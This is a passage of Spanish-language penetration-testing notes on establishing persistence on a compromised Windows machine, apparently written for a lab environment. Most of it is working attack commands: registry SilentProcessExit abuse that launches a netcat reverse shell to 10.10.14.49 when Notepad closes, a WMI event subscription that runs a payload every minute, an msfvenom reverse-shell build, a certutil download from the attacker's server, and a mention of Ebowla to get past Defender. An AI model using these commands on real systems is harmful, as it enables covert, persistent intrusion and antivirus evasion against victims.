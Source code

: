En este caso desde el RDP -  Remote Desktop Protocol  nos iriamos a la calculadora, y en cuanto la abrimos obtenemos acceso por la escucha.

### Segunda forma (Se ejecuta al cerrar)

```python
#Recordemos...
[+] Second Way
    
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
    
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
    
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "nc -e C:\Windows\Temp\nc64.exe C:\Windows\System32\cmd.exe 10.10.14.49 4567"

```
Copiamos de una en una y pegamos, en caso de tener que modificar algo es en la ultima y a partir de /d

Y nos ponemos en escucha en el puerto que hemos determinado antes.

### Tercera forma (La mas silenciosa)
Recordemos...
```python

[+] Third Way
    
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="persistence", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="persistence", ExecutablePath="C:\users\admin\meter.exe",CommandLineTemplate="C:\users\admin\meter.exe"

wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name="persistence"", Consumer="CommandLineEventConsumer.Name="persistence""

```

Primero nos vamos a crear con[[ msfvenom]] un binario:
```python
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.49 LPORT=4567 -f exe -o persistence.exe
```
Tenemos ya el ejecutable y volvermos a subirlo a la maquina victima. Si el Defender lo detectase habria que usar Ebowla otra vez.
Recordamos, abrir un server con python:
```python
python3 -m http.server 4567
```
Y desde la victima:
```python
certutil.exe -f -urlcache -split http://10.10.14.49:4567/persistence.exe
```
Cerramos el server y nos ponemos en escucha en el puerto que indicamos a msfvenom:
```python
rlwrap nc -nlvp 4567
```

Y ejecutamos persistence.exe y ya tenemos acceso!
La idea es que ahora cada minuto se ejecute, para ello vamos a usar los wmic antes puestos...
Tras poner los 3 comandos en el puerto de escucha obtendremos una shell cada cierto tiempo.
